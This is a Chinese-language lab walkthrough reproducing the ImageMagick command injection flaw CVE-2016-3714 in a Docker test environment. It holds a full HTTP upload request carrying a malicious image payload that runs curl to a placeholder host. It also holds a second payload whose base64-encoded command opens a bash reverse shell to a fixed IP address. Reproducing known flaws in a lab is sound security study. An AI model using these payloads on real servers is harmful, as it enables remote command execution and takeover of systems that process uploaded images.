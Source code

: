 # Imagetragick 命令执行漏洞 CVE-2016–3714

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

参考链接：

- [https://imagetragick.com](https://imagetragick.com/)
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## 环境搭建

执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：

```
docker-compose up -d
```

## 漏洞复现

访问`http://your-ip:8080/`即可查看到一个上传组件。

发送如下数据包：

```
POST / HTTP/1.1
Host: your-ip:8080
Content-Length: 321
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGqvKmZLh7bp9gMc1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8


------WebKitFormBoundaryGqvKmZLh7bp9gMc1
Content-Disposition: form-data; name="file_upload"; filename="avatar.jpg"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.your-domain.cn:2333)'
pop graphic-context
------WebKitFormBoundaryGqvKmZLh7bp9gMc1--
```

![image-20220224112947475](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241129569.png)

`www.your-domain.cn`监听2333端口。可见，2333端口已经接收到http请求，说明curl命令执行成功：

![image-20220224113125611](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241131681.png)

反弹shell（只能使用`/bin/bash`反弹，不能使用`bash`反弹）：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQzLjIzNy42MS8yMzMzIDA+JjEK | base64 -d | bash`"||id " )'
pop graphic-context
```

监听2333端口，接收反弹shell：

![image-20220224114827774](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241148867.png)

